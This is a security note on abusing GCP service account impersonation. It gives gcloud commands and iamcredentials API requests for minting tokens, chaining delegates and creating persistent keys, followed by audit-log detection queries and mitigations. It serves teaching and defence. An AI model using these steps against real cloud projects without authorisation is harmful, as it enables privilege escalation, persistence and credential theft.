

# Exploiting GCP Service Account Impersonation

## 1. Service Account Impersonation Fundamentals

In GCP, Service Accounts (SAs) are identities intended for non-human workloads (applications, VMs, pipelines). However, developers and administrators often need to execute commands with the permissions of a service account to debug or deploy resources.

GCP provides two primary ways to assume the identity of a Service Account:
1.  **Direct Authentication (Key Theft):** Downloading the RSA private key (the `.json` key file) of the SA. If this key is stolen, the attacker has permanent access until the key is explicitly revoked or expires.
2.  **Service Account Impersonation:** A dynamic, IAM-driven method. Instead of possessing the key, an identity (User or another SA) requests the GCP `iamcredentials` API to generate short-lived credentials for the target SA.

From an offensive perspective, impersonation is a highly potent mechanism for **Privilege Escalation** and **Lateral Movement**. If an attacker compromises an identity that has impersonation rights over a highly privileged Service Account, they effectively hold those privileges, acting as a cloud equivalent of `sudo`.

## 2. The Core IAM Permissions

The ability to impersonate is governed by the `roles/iam.serviceAccountTokenCreator` role, or specifically, the `iam.serviceAccounts.getAccessToken` permission.

Other relevant permissions include:
*   `iam.serviceAccounts.getOpenIdToken` (For OIDC ID Tokens)
*   `iam.serviceAccounts.signJwt` (For custom JWTs)
*   `iam.serviceAccounts.signBlob` (For cryptographic signing)

**Crucial Distinction:** `roles/iam.serviceAccountUser` does *not* allow generating access tokens. It only allows attaching the SA to a compute resource. To dynamically assume the identity via the API, `TokenCreator` is required.

### ASCII Architecture Diagram: The Impersonation Flow



## 3. Attack Vector 1: Generating Short-Lived Access Tokens

If an attacker identifies that their compromised account has `TokenCreator` over `prod-admin-sa@target-project.iam.gserviceaccount.com`, they can generate an OAuth 2.0 access token for that SA.

### Execution via gcloud CLI

The easiest method is using the `--impersonate-service-account` flag built into the `gcloud` CLI.

```bash
# Verify current identity
gcloud auth list

# Run a command as the target SA
gcloud compute instances list --project target-project \
  --impersonate-service-account=prod-admin-sa@target-project.iam.gserviceaccount.com

# Print the raw access token for use in other tools (e.g., curl, Terraform)
gcloud auth print-access-token \
  --impersonate-service-account=prod-admin-sa@target-project.iam.gserviceaccount.com
```

### Execution via REST API

If `gcloud` is unavailable, the raw REST API can be used.

**Request:**
```http
POST /v1/projects/-/serviceAccounts/prod-admin-sa@target-project.iam.gserviceaccount.com:generateAccessToken HTTP/1.1
Host: iamcredentials.googleapis.com
Authorization: Bearer <ATTACKER_CURRENT_TOKEN>
Content-Type: application/json

{
  "delegates": [],
  "scope": ["https://www.googleapis.com/auth/cloud-platform"],
  "lifetime": "3600s"
}
```

**Response:**
```json
{
  "accessToken": "ya29.c.c0ay_Vp...",
  "expireTime": "2026-06-10T09:07:48Z"
}
```

## 4. Attack Vector 2: Generating ID Tokens (OIDC)

While Access Tokens are used for GCP APIs, **ID Tokens** are used for Identity-Aware Proxy (IAP), Cloud Run, and Cloud Functions authentication. If an attacker needs to access an internal web application protected by IAP, they need an ID token.

Requires `iam.serviceAccounts.getOpenIdToken`.

**Request:**
```http
POST /v1/projects/-/serviceAccounts/prod-admin-sa@target-project.iam.gserviceaccount.com:generateIdToken HTTP/1.1
Host: iamcredentials.googleapis.com
Authorization: Bearer <ATTACKER_CURRENT_TOKEN>
Content-Type: application/json

{
  "audience": "https://my-internal-app.com",
  "includeEmail": true
}
```

## 5. Attack Vector 3: Chaining Impersonation (Delegation)

GCP allows "chaining" impersonation. If SA-A can impersonate SA-B, and SA-B can impersonate SA-C, an attacker compromising SA-A can ultimately act as SA-C.

The IAMCredentials API supports this via the `delegates` array in the request body.

**Scenario:** Attacker holds `dev-sa`. `dev-sa` has TokenCreator on `build-sa`. `build-sa` has TokenCreator on `prod-admin-sa`.

The attacker can generate a token for `prod-admin-sa` directly by passing the intermediate SA in the delegates list:

```http
POST /v1/projects/-/serviceAccounts/prod-admin-sa@target.iam.gserviceaccount.com:generateAccessToken HTTP/1.1
Host: iamcredentials.googleapis.com
Authorization: Bearer <DEV_SA_TOKEN>
Content-Type: application/json

{
  "delegates": [
    "projects/-/serviceAccounts/build-sa@target.iam.gserviceaccount.com"
  ],
  "scope": ["https://www.googleapis.com/auth/cloud-platform"],
  "lifetime": "3600s"
}
```
*Note: The attacker only needs the `dev-sa` token, the GCP backend validates the chain.*

## 6. Persistence Strategies via Impersonation

Because impersonation tokens are short-lived (max 1 hour, or 12 hours via Organization Policy exceptions), they are inherently not persistent. However, an attacker can *use* the impersonated identity to establish persistence.

If the impersonated SA has `roles/iam.serviceAccountAdmin` and `roles/iam.serviceAccountKeyAdmin`, the attacker can:
1. Impersonate the SA.
2. Use the SA's privileges to generate a permanent `.json` key for itself or another SA.
3. Exfiltrate the `.json` key.

Alternatively, the attacker can use the impersonated SA to grant their original, lower-privileged identity permanent roles on the project.

## 7. Detection and Threat Hunting

Impersonation is heavily logged in Cloud Audit Logs, making it highly detectable if defenders know what to look for.

### Cloud Audit Logs (Data Access)
Look for calls to the `iamcredentials.googleapis.com` service.
**Query:**
```text
protoPayload.serviceName="iamcredentials.googleapis.com"
protoPayload.methodName="GenerateAccessToken" OR
protoPayload.methodName="GenerateIdToken"
```

### Analyzing the Log Payload
The log entry will show the true identity of the attacker in the `authenticationInfo.principalEmail` field, and the impersonated service account in the `resourceName` field.

*Hunting Heuristics:*
*   Spikes in `GenerateAccessToken` events.
*   A User account (e.g., `dev@corp.com`) generating tokens for highly privileged Service Accounts outside of normal working hours.
*   Usage of the `delegates` field indicating complex chaining, which is rare in standard applications.

## 8. Mitigation Strategies

1.  **Least Privilege for TokenCreator:** Treat the `roles/iam.serviceAccountTokenCreator` role as equivalent to the permissions of the Service Account it is bound to. Never grant this project-wide.
2.  **Organization Policies:** Enforce `iam.disableServiceAccountKeyCreation` to prevent attackers from using impersonation to mint permanent keys.
3.  **VPC Service Controls:** Implement VPC SC to restrict where the `iamcredentials.googleapis.com` API can be called from, preventing external attackers from minting tokens even if they possess a valid base token.
4.  **Enforce Short Token Lifetimes:** Keep the default 1-hour maximum lifetime for OAuth access tokens. Avoid extending this via the `constraints/iam.allowServiceAccountCredentialLifetimeExtension` constraint.

## 9. Chaining Opportunities

*   **[[02 - IAM Privilege Escalation Paths in GCP]]**: Using `setIamPolicy` to grant oneself `TokenCreator`, then executing this impersonation attack.
*   **[[12 - Bypassing IAP and Context-Aware Access]]**: Minting an ID Token via impersonation to access an internal IAP-protected portal.
*   **[[14 - GCP Cloud KMS Security and Key Extraction]]**: Impersonating a KMS-admin SA to modify cryptographic key policies.

## 10. Related Notes

*   [[01 - Introduction to GCP Security Primitives]]
*   [[07 - Exploiting GCP Workload Identity]]
*   [[13 - IAM Trust Misconfigurations in GCP]]
